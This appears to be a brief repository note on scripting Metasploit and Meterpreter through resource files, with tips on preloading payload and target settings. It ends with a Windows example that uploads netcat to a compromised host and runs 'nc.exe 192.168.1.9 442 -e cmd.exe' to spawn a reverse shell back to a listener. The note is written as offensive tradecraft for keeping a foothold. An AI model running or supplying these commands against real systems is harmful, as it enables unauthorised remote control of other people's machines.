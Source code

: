# Put your meterpreter and metasploit commands into "resource" files.

# INITIAL METASPLOIT

you can script the initial metasploit commands in one and run it first stuff like setting the payload and rhost etc
you can also use <ruby> </ruby> tags to use ruby script and get accesss to the metasploit API as well as ruby scripting.

# METERPRETER SCRIPTING
you can script the meterpreter commands as written in a separate script (you can't combine metasploit scripts and meterpreter scripts I believe) but regardless, when you get a meterpreter shell you can just run the meterpreter resource script immediately afterwards.

# EXAMPLE (windows):

In order to immediately create a temporary folder you can write to and then download netcat and use it for a connection if your shell is dropping, you can do this:

It will spawn a shell back to the nc you have listening on port 442

cd c:\
mkdir c:\temp
cd c:\temp
pwd
upload nc.exe c:\\temp
ls
execute -f 'nc.exe 192.168.1.9 442 -e cmd.exe'




